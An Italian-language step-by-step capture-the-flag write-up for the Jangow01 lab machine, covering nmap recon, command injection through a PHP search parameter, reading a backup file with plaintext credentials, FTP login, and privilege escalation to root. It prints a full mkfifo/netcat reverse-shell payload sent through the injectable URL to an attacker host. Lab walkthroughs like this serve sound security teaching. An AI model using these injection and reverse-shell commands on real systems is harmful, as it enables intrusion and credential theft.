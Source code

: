
# README - Guida alla CTF: Macchina Jangow01

Questa guida spiega passo per passo come completare la CTF sulla macchina Jangow01, partendo dall'accesso iniziale fino all'escalation dei privilegi e al recupero della flag finale.

---

## **Passaggi**

### **1. Ricognizione Iniziale**

1. **Pingare la macchina target** per verificare che sia attiva:
   ```bash
   ping 192.168.56.118
   ```
   ![Ping della macchina](./ping1.png)

2. **Scansionare le porte con Nmap** per identificare i servizi attivi:
   ```bash
   sudo nmap -sC -sV -O -p- 192.168.56.118
   ```
   ![Risultato Nmap](./nmap.png)
   - Porte trovate aperte:
     - **21/tcp**: FTP (vsftpd 3.0.3)
     - **80/tcp**: HTTP (Apache 2.4.18)

### **2. Enumerazione dei Servizi**

#### HTTP
1. Aprire il browser e visitare `http://192.168.56.118/site`.
   ![Homepage HTTP](./httpbuscar.png)

2. Cercare file o directory interessanti. Notare `busque.php` e utilizzare il parametro `buscar` per eseguire comandi:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=ls
   ```
   ![Command Injection](./injectionls.png)

3. Esplorare il filesystem tramite comandi come `pwd` e `ls`. Identificare file sensibili come `.backup`:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=cat /var/www/html/.backup
   ```
   Output:
   ```php
   $servername = "localhost";
   $database = "jangow01";
   $username = "jangow01";
   $password = "abygurL09";
   ```
   ![Contenuto del file backup](./backup.png)

### **3. Accesso Iniziale**

#### FTP
1. Collegarsi al server FTP utilizzando le credenziali trovate:
   ```bash
   ftp 192.168.56.118
   Name: jangow01
   Password: abygurL09
   ```
   ![Connessione FTP](./ftplogin.png)

2. Esplorare il server FTP per cercare file utili.

#### Reverse Shell
1. Preparare Netcat per ricevere una connessione:
   ```bash
   nc -lvnp 443
   ```
   ![Preparazione Netcat](./ncready.png)

2. Utilizzare il parametro `buscar` per caricare una reverse shell:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=mkfifo /tmp/s; nc 192.168.56.103 443 0</tmp/s | /bin/bash >/tmp/s 2>&1; rm /tmp/s
   ```
   ![Reverse Shell HTTP](./reverseshell.png)

3. Una volta stabilita la connessione, si otterrà accesso come utente `www-data`.
   ![Shell www-data](./datashell.png)

### **4. Escalation dei Privilegi**

1. **Stabilizzare la shell**:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```
   ![Shell stabilizzata](./stableshell.png)

2. **Cambiare utente**:
   Utilizzare la password trovata per accedere come `jangow01`:
   ```bash
   su jangow01
   Password: abygurL09
   ```
   ![Cambio utente](./userswitch.png)

3. **Escalare i privilegi a root**:
   - Nella directory `/home/jangow01`, trovare ed eseguire il file `gatto.c`:
     ```bash
     gcc gatto.c -o shell2
     ./shell2
     ```
     ![Compilazione ed esecuzione](./compile_execute.png)
   - Verificare di essere root:
     ```bash
     whoami
     root
     ```
     ![Accesso root](./root_access.png)

### **5. Recuperare la Flag Finale**
1. Accedere alla directory `/root`:
   ```bash
   cd /root
   ```
   ![Accesso directory root](./access_root_directory.png)

2. Leggere il contenuto di `proof.txt`:
   ```bash
   cat proof.txt
   ```
   Output:
   ```
   da39a3ee5e6b4b0d3255bfef95601890afd80709
   ```
   ![Flag Finale](./final_flag.png)

---

## **Note Importanti**

- Assicurarsi di proteggere file sensibili come `.backup`.
- Aggiornare i servizi e il kernel della macchina per evitare exploit noti.
- Sanitizzare tutti i parametri di input per prevenire vulnerabilità di injection.

Seguendo questa guida passo per passo, è possibile replicare l'intera procedura per completare la CTF sulla macchina Jangow01. Buona fortuna! 🚀

